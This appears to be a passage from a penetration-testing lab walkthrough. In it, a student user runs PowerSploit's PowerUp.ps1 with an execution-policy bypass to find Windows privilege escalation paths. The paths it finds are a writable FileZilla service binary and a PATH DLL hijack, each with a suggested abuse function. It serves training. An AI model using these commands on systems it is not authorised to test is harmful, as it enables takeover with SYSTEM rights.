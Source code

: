 _Navigate to the PowerSploit directory and then to the Privesc directory where the PowerUp script is located._

`cd ./PowerSploit`, `dir`:
```
    Directory: C:\Users\student\Desktop\PowerSploit

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/27/2020  10:09 AM                AntivirusBypass
d-----       10/27/2020  10:09 AM                CodeExecution
d-----       10/27/2020  10:09 AM                docs
d-----       10/27/2020  10:09 AM                Exfiltration
d-----       10/27/2020  10:09 AM                Mayhem
d-----       10/27/2020  10:09 AM                Persistence
d-----       10/27/2020  10:09 AM                Privesc ←
d-----       10/27/2020  10:09 AM                Recon
d-----       10/27/2020  10:09 AM                ScriptModification
d-----       10/27/2020  10:09 AM                Tests
-a----       10/27/2020  10:09 AM           2638 .gitignore
-a----       10/27/2020  10:09 AM           1590 LICENSE
-a----       10/27/2020  10:09 AM           8505 mkdocs.yml
-a----       10/27/2020  10:09 AM           5278 PowerSploit.psd1
-a----       10/27/2020  10:09 AM            149 PowerSploit.psm1
-a----       10/27/2020  10:09 AM          15646 PowerSploit.pssproj
-a----       10/27/2020  10:09 AM            971 PowerSploit.sln
-a----       10/27/2020  10:09 AM          10225 README.md
```

_Navigate to the 'Privesc' directory and list its contents._

`cd ./PrivEsc`, `dir`:
```
    Directory: C:\Users\student\Desktop\PowerSploit\Privesc

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/27/2020  10:09 AM          26768 Get-System.ps1
-a----       10/27/2020  10:09 AM         600580 PowerUp.ps1 ←
-a----       10/27/2020  10:09 AM           1659 Privesc.psd1
-a----       10/27/2020  10:09 AM             67 Privesc.psm1
-a----       10/27/2020  10:09 AM           4569 README.md
```

_Execute the PowerUp.ps1 script to identify potential privilege escalation vulnerabilities._

`powershell -ep bypass -c ". ./PowerUp.ps1; Invoke-PrivEscAudit"`:
```
ServiceName                     : FileZilla Server ←
Path                            : "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe"
ModifiableFile                  : C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe ←
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : PRIV-ESC\student ←
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'FileZilla Server'
CanRestart                      : True
Name                            : FileZilla Server
Check                           : Modifiable Service Files

ModifiablePath    : C:\Users\student\AppData\Local\Microsoft\WindowsApps
IdentityReference : PRIV-ESC\student
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\student\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\student\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\student\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```